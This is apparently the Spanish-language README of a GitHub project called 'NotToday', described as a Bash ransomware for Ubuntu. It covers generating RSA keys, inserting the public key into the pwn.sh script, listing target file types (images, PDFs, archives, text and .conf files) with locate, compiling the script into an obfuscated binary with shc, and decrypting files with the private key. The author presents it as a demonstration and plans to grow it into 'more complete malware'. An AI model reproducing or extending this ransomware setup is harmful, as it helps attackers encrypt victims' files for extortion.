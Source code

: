 # NotToday
[![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

NotToday en un ransomware programado en Bash Scripting de uso para distribuciones Ubuntu y derivados. Creado para la demostracion del funcionamiento de un ransomware y el impacto que este puede desmebocar en un computador. Así mismo el codigo aquí expuesto esta sujeto a cambio y actualizaciones de manera que se logre un malware mucho mas completo.

<p align="center"><img src="https://raw.githubusercontent.com/EduardoDesdes/NotToday/master/ntd.jpeg"</p> 

## Configuracion Inicial
### Creacion de llaves RSA
Creamos una llave privada RSA aleatoria de una cantidad especifica.

    $ openssl genrsa -out clave.pem 4096

Luego creamos la llave publica mediante la llave privada.

    $ openssl rsa -in clave.pem -out clave.pub.pem -outform PEM -pubout
    
### Insertar la llave publica en el codigo
Para esto debemos editar el archivo ***pwn.sh*** por en contenido de la llave publica.
```bash
#Clave Publica
echo "-----BEGIN PUBLIC KEY-----" >> clave.pub.pem
...
...
echo "-----END PUBLIC KEY-----" >> clave.pub.pem
```

### Seleccionar que formato de ficheros desea encriptar
```bash
#Generar los archivos a encriptar
locate -r "\.jpg$" > /tmp/list.ntm
locate -r "\.jpeg$" >> /tmp/list.ntm
locate -r "\.png$" >> /tmp/list.ntm
locate -r "\.pdf$" >> /tmp/list.ntm
locate -r "\.odt$" >> /tmp/list.ntm
locate -r "\.rar$" >> /tmp/list.ntm
locate -r "\.zip$" >> /tmp/list.ntm
locate -r "\.txt$" >> /tmp/list.ntm
locate -r "\.conf$" >> /tmp/list.ntm
```

## Creacion del binario para ejecucion
Para crear el binario usaremos una herramienta llamada ***shc***.

    $ shc -v -r -f pwn.sh
    
Nos encontraremos con dos archivos, ***pwd.sh.x*** y ***pwn.sh.c***.

- ***pwd.sh.x***: El archivo ejecutable del ransomware.
- ***pwn.sh.c***: El script en c del ransomware.

## Recuperar los ficheros encriptados
Al realizarse satisfactoriamente el encriptado de los ficheros el ransomware deja un fichero denominado ***enviame.enc***, se deberá colocar en la misma carpeta que el archivo ***dcry.sh*** y la llave privada ***clave.pem***. Y ejecutar el siguiente comando.

    $ bash dcry.sh

El cual generará un fichero llamado ***key.txt***. Y ahora usaremos el fichero ***repa.sh*** para recuperar todos los archivos encriptados usando la key obtenida.

    $ bash repa.sh

## Creditos

Autor: ***Eduardo Sarria (Desdes)***

Facebook: [https://www.facebook.com/eduardo.s.desdes](https://www.facebook.com/eduardo.s.desdes)

Linkedin: [https://www.linkedin.com/in/eduardodesdes/](https://www.linkedin.com/in/eduardodesdes/)

OpenBugBounty: [https://www.openbugbounty.org/researchers/EduardoDesdes/](https://www.openbugbounty.org/researchers/EduardoDesdes/)